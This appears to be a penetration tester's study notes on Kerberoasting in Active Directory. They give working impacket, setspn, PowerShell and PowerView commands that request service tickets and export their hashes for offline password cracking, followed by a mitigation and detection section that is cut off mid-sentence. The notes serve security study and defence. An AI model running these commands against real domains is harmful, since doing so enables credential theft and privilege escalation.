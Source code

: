 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 2 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```
Kerberoasting is a lateral movement/privilege escalation technique used in AD environments. It attacks [[Active Directory#Service Principal Name (SPN)|Service Principle Name (SPN)]] accounts.
![[Active Directory#Service Principal Name (SPN)]]
Domain accounts are often used to run services to overcome network auth limitations of local built-in accounts. However, any domain user can request a Kerberos ticket for any service account in the same domain (*This is also possible across trusts if the relationship permits it*). Once you have an account (credentials, NTLM hash, shell in context, or SYSTEM access on a domain joined host), you can perform a Kerberoasting attack.

Domain accounts that run services are often local administrators or high privileged domain accounts due to the distributed nature of how the services interact in the network.

**The Key Vulnerability**
Even with a Kerberos ticket for one of these privileged accounts, we cannot just execute commands as that user. However, the ticket ([[Kerberos#Ticket Granting Service (TGS)|TGS-REP]]) is *encrypted with the service account's NTLM hash*. This then means that theoretically, the plain-text password for the service account could be brute forced (eg. [[Hashcat]]).

Often, the password for these service accounts are weak or reused, so breaking one could give you access to a variety of accounts or servers. Cracking one of these service accounts, could give you an attack path through a service to gain RCE.

The attack can be performed from multiple places:
- From a non-domain joined Linux host using valid domain user credentials
- From a domain-joined Linux host as root after retrieving the `keytab` file
- From a domain-joined Windows host authenticated as a domain user
- From a domain-joined Windows host with a shell in the context of a domain account
- As `SYSTEM` on a domain-joined Windows host
- From a non-domain joined Windows host using [runas](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525(v=ws.11)) `/netonly`

## Kerberoasting with GetUserSPNs.py - Linux
`GetUserSPNs.py` is an [impacket toolkit](https://github.com/SecureAuthCorp/impacket) script for working with SPNs.
### Request TGS tickets for SPN accounts
```bash
# Requests from all accounts
GetUserSPNs.py -dc-ip [ip] [domain]/[user] -request -outputfile all_accounts_tgs

# Requests from a single account
GetUserSPNs.py -dc-ip [ip] [domain]/[user] -request-user [target-user]
```
> The output will be in format for [[Hashcat]] - mode: 13100
> We can then use a tool like [[CrackMapExec]] to validate the account credentials once cracked.

## Manual Kerberoasting with setspn.exe - Windows
Before modern automated tools existed, manual methods such as using the built-in [setspn](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc731241(v=ws.11)) was the way this attack was performed.
The general methodology is to extract a bunch of SPNs, then request TGS tickets and have them loaded into memory. Finally, we can then use a tool like [[Mimikatz]] to extract them from memory.
### Enumerate SPNs
```batch
setspn.exe -Q */*

:: Example Output
CN=sqldev,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
        MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433
```
> This will return not only users, but computers too. You may want to only focus on users.

### Targeting a single user
```PowerShell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```
The general concept here is:
1. The `Add-Type` cmdlet allows us to use `.NET` classes
2. The `-AssemblyName` allows us to specify the assembly with the types we need
3. [System.IdentityModel](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel?view=netframework-4.8) is the namespace that contains the classes relating to building security token services
4. `New-Object` creates a new `.NET` object
5. Using the [System.IdentityModel.Tokens](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens?view=netframework-4.8) namespace with the [KerberosRequestorSecurityToken](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens.kerberosrequestorsecuritytoken?view=netframework-4.8) class creates a security token for the passed SPN name for our currently logged in user
> This is essentially what automated tools such as [[Rubeus]] do

### Targeting all users
> This will include computers, not just users

```PowerShell
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

### Extracting the tickets from memory using [[Mimikatz]]
![[Mimikatz#Extracting Kerberos TGS Tickets]]

## Automated Kerberoasting with PowerView - Windows
### View users with SPNs
```PowerShell
Import-Module .\PowerView.ps1
Get-DomainUser * -spn | select samaccountname
```
### Target a specific user
```PowerShell
Get-DomainUser -Identity [user] | Get-DomainSPNTicket -Format Hashcat
```
### Extracting all tickets to a csv
```PowerShell
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv [outputfile].csv -NoTypeInformation
cat [outputfile].csv
```

## Automated Kerberoasting with [[Rubeus]] - Windows
![[Rubeus#Summary]]
![[Rubeus#Usage]]

## Mitigation & Detection
### Non-managed service accounts
Using long and complex passwords or pass phrases can drastically reduce the risk of passwords being cracked. A better recommendation is to use [Managed Service Accounts (MSA)](https://techcommunity.microsoft.com/t5/ask-the-directory-services-team/managed-service-accounts-understanding-implementing-best/ba-p/397009), and [Group Managed Service Accounts (gMSA)](https://docs.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview), which use very complex passwords, and automatically rotate on a set interval (like machine accounts) or accounts set up with [[Windows#Local Administrator Password Solution (LAPS)|LAPS]].

### Looking for an abnormal number of TGS requests
When Kerberoasting is being performed, an abnormal number of `TGS-REQ` and `TGS-REP` requests and responses will be made. This could be an indication of automated tools being used. Monitoring can be enabled by selecting [Audit Kerberos Service Ticket Operations](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/audit-kerberos-service-ticket-operations) within Group Policy.

Doing so will generate two separate event IDs: [4769](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4769): A Kerberos service ticket was requested, and [4770](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4770): A Kerberos service ticket was renewed. 10-20 Kerberos TGS requests for a given account can be considered normal in a given environment. A large amount of 4769 event IDs from one account within a short period may indicate an attack.

### Restrict usage of RC4 encryption
Restricting the use of weak encryption algorithms can also play a part in increasing the time it would take to crack them passwords, when combined with complex passwords, this can make it unfeasible to crack passwords 
